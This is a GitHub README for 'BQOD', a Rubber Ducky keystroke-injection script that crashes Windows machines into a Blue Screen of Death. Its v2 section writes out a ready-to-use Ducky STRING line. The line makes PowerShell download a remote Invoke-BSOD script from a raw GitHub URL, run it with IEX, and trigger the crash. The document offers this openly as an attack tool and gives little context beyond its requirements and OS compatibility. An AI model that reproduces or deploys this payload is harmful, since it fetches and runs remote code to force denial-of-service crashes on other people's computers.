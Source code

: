 # BQOD - tHE_bLUE_qUACK_oF_dEATH
A script for Rubber Ducky which uses the Invoke-bsod powershell technique to trigger a Blue Screen of Death

</BR>

</BR>


https://github.com/peewpw/Invoke-BSOD


</BR>



![Alt text](https://raw.githubusercontent.com/JonnyBanana/BQOD_tHE_bLUE_qUACK_oF_dEATH/master/img/DUCKY-KILLERS.jpg)


</BR>

<h2>v1</h2>

</br>

<h3> Requirements</h3>

</br>

-Twin Duck Firmware

-Rubber Ducky Must be Named "_"

-BSOD.exe

</BR>

<h3>Os Compatibility</h3>
  
</BR>

-Windows Vista or Earlier

</BR>

![Alt text](https://raw.githubusercontent.com/JonnyBanana/BQOD_tHE_bLUE_qUACK_oF_dEATH/master/img/duckycode.JPG)

</BR>

<h2>v2</h2>

</br>

<h3>Requirements</h3>

</br>

-None

</BR>

<h3>Os Compatibility</h3>

</BR>

-Windows Vista or Earlier

</BR>

STRING powershell IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD

</BR>
